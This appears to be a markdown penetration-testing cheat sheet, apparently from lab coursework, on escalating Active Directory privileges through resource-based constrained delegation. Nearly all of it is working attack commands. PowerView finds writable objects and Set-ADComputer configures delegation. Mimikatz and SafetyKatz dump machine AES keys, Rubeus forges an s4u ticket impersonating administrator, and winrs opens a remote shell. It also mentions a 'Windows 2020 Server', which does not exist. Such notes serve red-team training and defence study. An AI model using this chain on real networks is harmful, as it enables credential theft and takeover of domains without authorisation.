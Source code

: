 # RBCD

## Domain Privilege Escalation \[ RBCD ]

## Methodology/Steps

> 1. Enumerate the users and identify if you have write perms on any object
> 2. Create a list of all the systems where you have write perms
> 3. Store that in $comps variable
> 4. Set RBCD on all of these systems
> 5. Now we can dump the AES keys for the student system ( Remember: Copy the AES key for the system account and not the Virtual Account, you can identify it by the SID. The SID of the system account will be shorter)
> 6. Using Rubeus we can generate a HTTP s4u and get a connection using winrs. If you want to extract more secrets from that system you need to generate a CIFS s4u to transfer files on the system.

***

## PowerShell

### 1. Enumerate if we have Write permissions over any object

```powershell
# PowerView
Find-InterestingDomainAcl | ?{$_.identityreferencename -match 'mgmtadmin'}
```

### 2. Configure RBCD on us-helpdesk for student machines

```powershell
# AD Module
$comps = 'student1$','student2$'
Set-ADComputer -Identity us-helpdesk -PrincipalsAllowedToDelegateToAccount $comps
```

### 3. We we can dump the AES Keys of the Students

```powershell
# Mimikatz
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'

# SafetyKatz Binary
SafetyKatz.exe -Command "sekurlsa::ekeys" "exit"

# SafetyKatz Old (For Windows 2020 Server)
SafetyKatz_old.exe -Command "sekurlsa::ekeys" "exit"
```

***

## Binaries

### 4. Rubeus

> Use the AES key of studentx$ with Rubeus and access us-helpdesk as ANY user we want

```powershell
Rubeus.exe s4u /user:student1$ /aes256:d1027fbaf7faad598aaeff08989387592c0d8e0201ba453d83b9e6b7fc7897c2 /msdsspn:http/us-helpdesk /impersonateuser:administrator /ptt
```

### 5. Winrs

> Now we can connect to the session

```powershell
winrs -r:us-helpdesk cmd.exe
```
